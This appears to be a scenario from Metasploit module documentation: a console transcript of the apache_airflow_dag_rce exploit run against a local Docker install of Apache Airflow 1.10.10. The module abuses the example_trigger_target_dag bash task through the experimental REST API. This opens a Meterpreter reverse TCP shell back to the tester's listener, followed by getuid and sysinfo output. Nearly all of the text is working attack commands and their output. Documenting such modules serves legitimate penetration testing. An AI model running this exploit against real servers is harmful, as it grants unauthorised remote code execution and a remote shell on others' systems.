 ### Apache Airflow 1.10.10 Installed with Docker on Kali Linux 6.3.0

* Using default TARGET 0 - Unix Command

```msf
msf6 > use exploit/multi/http/apache_airflow_dag_rce
[*] Using configured payload cmd/unix/python/meterpreter_reverse_tcp
msf6 exploit(multi/http/apache_airflow_dag_rce) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(multi/http/apache_airflow_dag_rce) > set LHOST eth0
LHOST => eth0
msf6 exploit(multi/http/apache_airflow_dag_rce) > exploit

[*] Started reverse TCP handler on 192.168.245.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response at: http://127.0.0.1:8080/admin/airflow/login
[+] Target is running Apache Airflow.
[*] Checking Apache Airflow version...
[+] Target is running Apache Airflow Version 1.10.10.
[+] The target appears to be vulnerable. However, extra checks are still required to make sure the example DAG is loaded, running, and executable.
[*] Checking if Airflow Experimental REST API is accessible at: http://127.0.0.1:8080/api/experimental/test
[+] Airflow Experimental REST API is accessible.
[*] Checking for vulnerability of 'example_trigger_target_dag.bash_task'...
[+] The 'example_trigger_target_dag.bash_task' is vulnerable.
[*] Checking if 'example_trigger_target_dag.bash_task' is enabled...
[+] The 'example_trigger_target_dag.bash_task' is enabled.
[*] Creating new DAG...
[+] Successfully created DAG: Created <DagRun example_trigger_target_dag @ 2023-08-10 05:33:09+00:00: manual__2023-08-10T05:33:09+00:00, externally triggered: True>
[*] Waiting for Scheduler to run the DAG. This might take a while...
[!] If the Bash task is never queued, then the Scheduler might not be running.
[!] Bash task is not yet queued...
[!] Bash task is not yet queued...
[!] Bash task is not yet queued...
[*] Bash task is queued...
[*] Bash task is queued...
[*] Meterpreter session 1 opened (192.168.245.128:4444 -> 172.18.0.2:34048) at 2023-08-10 12:04:11 +0630
[+] Bash task is running. Expect a session if executed successfully.

meterpreter > getuid
Server username: airflow
meterpreter > sysinfo
Computer        : 6e96596b60f7
OS              : Linux 6.3.0-kali1-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.3.7-1kali1 (2023-06-29)
Architecture    : x64
System Language : C
Meterpreter     : python/linux
meterpreter >
```
